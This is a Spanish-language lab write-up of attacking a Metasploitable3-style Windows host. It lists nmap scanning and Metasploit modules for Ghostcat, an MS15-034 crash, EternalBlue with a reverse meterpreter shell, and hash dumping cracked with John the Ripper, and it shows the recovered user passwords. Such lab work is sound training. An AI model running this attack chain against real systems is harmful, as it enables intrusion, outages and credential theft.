







# MS3-WIN

## Enumeración

```
sudo nmap -sV -T4 -p- 10.0.2.14
```


## CVE-2021-41381

Está pendiente de análisis.
https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2021-41381

## CVE-2016-6794

No explotable.

## CVE-2010-0219

No explotable.

## CVE-2020-1938

Ejecutando el siguiente módulo en Metasploit:

```
auxiliary/admin/http/tomcat_ghostcat
```

Hemos podido leer un archivo extraído del servidor Tomcat (puerto 8009); es decir, se muestra el contenido de un archivo XML (web.xml en este caso) que contiene la configuración básica de la aplicación web de Tomcat.



## CVE-2015-1635

Haciendo uso del siguiente módulo de Metasploitable:

```
scanner/http/ms15_034_http_sys_memory_dump
```

Obtenemos un volcado hexadecimal junto con su representación en ASCII. Esto indica que se ha capturado parte de la respuesta HTTP generada por el servidor y que es vulnerable a ataques que explotan el manejo inadecuado de solicitudes HTTP.



Podemos explotar esta vulnerabilidad de la siguiente manera:

Empezamos buscando el módulo en`msfconsole`:

```
search ms15-034
```

Usamos el primero:

```
use auxiliary/dos/http/ms15_034_ulonglongadd
```

Asignamos la IP del host vulnerable y corremos el comando.

```
run 
```


Esto provoca que la máquina colapse y se reinicie cada vez que se ejecute el exploit.
## CVE-2017-0143 (ETERNALBLUE)

Ejecutando el módulo de`exploit/windows/smb/ms17_010_eternalblue`con el payload de`windows/x64/meterpreter/reverse_tcp`pudimos abrir una sesión de meterpreter.



Hacemos un`hashdump`y obtenemos todos los hashes de las contraseñas de los usuarios del sistema:



Copiamos este resultado a un fichero llamado`hash.txt`y utilizamos `John the Ripper`:

```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Obtuvimos los credenciales de dos usuarios del sistema:

- **Administrato**r: vagrant
- **c_three_pio**: pr0t0c0l



